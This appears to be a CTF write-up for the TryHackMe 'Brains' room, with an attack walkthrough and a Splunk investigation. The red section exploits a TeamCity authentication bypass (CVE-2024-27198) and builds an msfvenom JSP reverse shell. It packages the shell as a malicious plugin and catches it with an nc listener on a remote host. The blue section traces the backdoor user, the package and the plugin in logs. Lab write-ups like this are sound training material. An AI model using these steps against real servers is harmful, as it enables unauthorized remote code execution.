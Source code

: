 
**CTF**: [Brains](https://tryhackme.com/r/room/brains) - Easy

**Table of Contents**
- [RED](#red)
  - [Reconnaissance](#reconnaissance)
    - [TeamCity](#teamcity)
  - [Exploitation](#exploitation)
  - [Escalation](#escalation)
- [BLUE](#blue)
    - [1. What is the name of the backdoor user which was created on the server after exploitation?](#1-what-is-the-name-of-the-backdoor-user-which-was-created-on-the-server-after-exploitation)
    - [2. What is the name of the malicious-looking package installed on the server?](#2-what-is-the-name-of-the-malicious-looking-package-installed-on-the-server)
    - [3. What is the name of the plugin installed on the server after successful exploitation?](#3-what-is-the-name-of-the-plugin-installed-on-the-server-after-successful-exploitation)

# RED

## Reconnaissance
See what is running: `nmap $IP` and `nmap -p 22,80,50000 -sV $IP`
```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
50000/tcp open  ibm-db2?

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Website on port `80` is basically empty.

### TeamCity

Nmap couldn't recognize the service running on port `50000`, after accessing we get into **TeamCity** 
(JetBrains) login page, which is a CI/CD tool, we can see that the version is `2023.11.3`. 

<img src="./red/Cattura3.PNG"/>

Searching for known exploits we can find [CVE-2024-27198](https://nvd.nist.gov/vuln/detail/CVE-2024-27198) 
that is an authentication bypass vulnerability for TeamCity	<= 2023.11.3.
There are two exploits available, discovered the second exploit later, after I had already gained a web shell; the second exploit automates this process.
- [Auth Bypass](https://github.com/yoryio/CVE-2024-27198)
- [Auth Bypass + RCE](https://github.com/W01fh4cker/CVE-2024-27198-RCE)

> IMPORTANT: The following section will cover the manual exploitation to get the Web Shell. 

Using the first exploit we can create the new user:

<img src="./red/Cattura5.PNG"/>

Then I changed the password for `administrator` user under **Administration** -> **Users** -> **administrator**, 
as you can see below; even if this wasn't necessary, this is something I would look out for.

<img src="./red/Cattura9.PNG"/>

## Exploitation

While exploring the **Administration** dashboard we can see, at the bottom of the lateral panel the **Plugins** 
section.
<!--

that looks as follows:

<img src="./red/Cattura18.PNG"/>
-->
I supposed we could upload a jar/jsp reverse shell as a plugin so I created one with `msfvenom`:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.28.226 LPORT=4444 -f raw > shell.jsp
```

I tried to upload it; however, it required a ZIP file; so I added it to a zip folder, still got error...
At this point, I decided to reference the [Plugins Packaging](https://plugins.jetbrains.com/docs/teamcity/plugins-packaging.html) 
documentation for TeamCity, there is what the zip folder should contain:
```
|- server
|    - shell.jar
|      - buildServerResources
|        - shell.jsp
|- teamcity-plugin.xml
```

So the steps to get the Web Shell from the **Plugins** page are: 
1. (*Done*) Create `shell.jsp`: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.28.226 LPORT=4444 -f raw > shell.jsp`

2. Create `teamcity-plugin.xml`:
```
<?xml version="1.0" encoding="UTF-8"?>
<teamcity-plugin xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:noNamespaceSchemaLocation="urn:schemas-jetbrains-com:teamcity-plugin-v1-xml">
    <info>
        <name>shell</name>
        <display-name>shell</display-name>
        <description>a very useful plugin</description>
        <version>1.0</version>
        <vendor>
            <name>deez</name>
            <url>http://jomama.gov</url>
        </vendor>
    </info>
    <deployment use-separate-classloader="true" node-responsibilities-aware="true"/>
</teamcity-plugin>
```

1. Create `shell.jar`: `mkdir buildServerResources && mv shell.jsp buildServerResources/ && zip -r shell.jar buildServerResources/ && rm -fr buildServerResources/`

2. Zip shell folder: `zip -r shell.zip teamcity-plugin.xml shell.jar`

3. `nc -lnvp 4444` on Attacker Machine and we can then access `http://$IP:50000/plugins/shell/shell.jsp` to run the shell.

<img src="./red/Cattura26.PNG"/>

## Escalation

Actually, there isn’t much left to do after gaining the web shell; we can just go into the home and get `flag.txt` content:

<img src="./red/Cattura27.PNG"/>

**BONUS**: even if not required, try to get root. (it couldn't be easier)

# BLUE

> Disclaimer: I've never used Splunk before this CTF.

<img src="./blue/Cattura7.PNG"/>

### 1. What is the name of the backdoor user which was created on the server after exploitation?

There are various ways to create a backdoor on a machine, but the question gives us a hint: it is a new user; so we can create a table with the filter `* source="/var/log/auth.log"`, there, by hovering on "name" field, we can see the user: [REDACTED].

<img src="./blue/Cattura4.PNG"/>

### 2. What is the name of the malicious-looking package installed on the server?

This one took me some time, we know that we want to look for packages installed in the `dpkg.log`, however there are more than 3000 entries. 

To make the search easier I wanted to extract a list of the installed packages, so I asked GPT if there was a way to do it in Splunk, and it came up with the following filter: `source="/var/log/dpkg.log" "install" | sort _time | rex field=_raw "install (?<package_name>\S+)" | table package_name`; the package [REDACTED] looks like something malicious.

<img src="./blue/Cattura10.PNG"/>

<img src="./blue/Cattura11.PNG"/>

### 3. What is the name of the plugin installed on the server after successful exploitation?

To answer this question we need to dig into TeamCity logs since there we can find any activity related to plugin installation; we can create a table using the following filter: `* source="/opt/teamcity/TeamCity/logs/teamcity-activities.log"`

The malicious plugin name is [REDACTED].

<img src="./blue/Cattura2.PNG"/>









